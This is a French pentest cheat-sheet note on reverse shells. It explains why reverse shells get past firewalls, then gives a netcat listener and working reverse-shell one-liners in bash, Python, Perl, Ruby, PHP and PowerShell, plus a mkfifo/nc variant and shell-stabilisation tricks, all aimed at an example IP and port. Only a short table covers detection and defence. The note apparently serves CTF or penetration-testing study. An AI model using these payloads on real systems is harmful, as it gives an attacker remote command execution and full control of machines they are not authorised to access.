

# 🕸️ Reverse Shells

> [!info] **En 1 phrase**
> Reverse shell = le serveur/la machine compromise se connecte **vers nous** pour nous donner
> un shell — ça franchit les pare-feux (le trafic "sortant" est souvent autorisé).

---

## 🎯 Concept



> [!info] 💡 **Reverse vs Bind**
> - **Reverse** : la cible se connecte **à nous** → franchise les FW sortants.
> - **Bind** : on se connecte **à la cible** → bloque par les FW entrants.
> En pratique : **reverse** quasi toujours.

---

## 🛠️ Exploitation

```bash
# LISTENER (toujours avant !)
nc -lvnp 4444

# Bash / sh
bash -i >& /dev/tcp/10.10.14.5/4444 0>&1
/bin/sh -i >& /dev/tcp/10.10.14.5/4444 0>&1

# Python (le plus fiable)
python3 -c 'import socket,subprocess,os,pty;s=socket.socket();s.connect(("10.10.14.5",4444));[os.dup2(s.fileno(),f) for f in (0,1,2)];pty.spawn("/bin/bash")'

# Perl / Ruby / PHP
perl -e 'use Socket;$i="10.10.14.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));connect(S,sockaddr_in($p,inet_aton($i)))||die;open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");;'
ruby -rsocket -e'f=TCPSocket.open("10.10.14.5",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
php -r '$s=fsockopen("10.10.14.5",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# PowerShell (Windows) - version compacte
$c=New-Object Net.Sockets.TCPClient('10.10.14.5',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$x=(iex $d 2>&1|Out-String);$s.Write(([Text.Encoding]::ASCII.GetBytes($x+'PS '+(pwd).Path+'> ')),0,...)};$c.Close()
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Pare-feu sortant** | Autoriser les sorties uniquement vers les domaines nécessaires |
| **Surveillance réseau** | Connexions sortantes vers des IP inconnues sur des ports inhabituels |
| **EDR/AV** | Détection de comportement shell / processus parents suspects |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Stabiliser le shell (Linux)**
> ```bash
> python3 -c 'import pty; pty.spawn("/bin/bash")'
> # Ctrl+Z → stty raw -echo; fg → export TERM=xterm
> stty rows 43 columns 260
> # gere la dimension du terminal
> ```


> [!warning] ⚠️ **Piège** : `nc -e` n'existe pas sur toutes les versions (OpenBSD vs GNU). Le `mkfifo` est l'alternative universelle :
> ```bash
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 4444 >/tmp/f
> ```

---

## 🔗 Liens

- [[Injection de commandes|🐚 Injection de commandes]]
- [[Pivoting et Tunneling|🌉 Pivoting / Tunneling]]
- → Note complète : [[04 - Exploitation Réseau|💥 Exploitation Réseau]]
